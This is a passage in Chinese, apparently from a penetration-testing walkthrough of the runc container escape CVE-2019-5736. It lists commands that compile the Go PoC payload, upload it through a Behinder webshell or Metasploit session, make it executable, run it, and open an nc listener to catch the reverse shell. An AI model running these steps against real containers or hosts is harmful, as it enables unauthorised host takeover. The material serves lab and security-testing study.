 编译生成payload：

```
source /etc/profile   //配置go环境 CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go  //编译生成
```

![img](assets/1695034953191-315a5eba-3210-47b0-99ee-17c0154bb24a.png)
上传main：

可以使用冰蝎，也可以使用msf会话上传，且需要赋予权限

```
upload /home/cys121/桌面/CVE-2019-5736-PoC/main /home chmod 777 /home/main
```

![img](assets/1695034956620-3f5511dc-83f8-411a-9250-1979f54cc2ce.png)
执行payload，同时 nc 监听7777

```
./main   //运行payload nc -lvp 7777  //监听
```
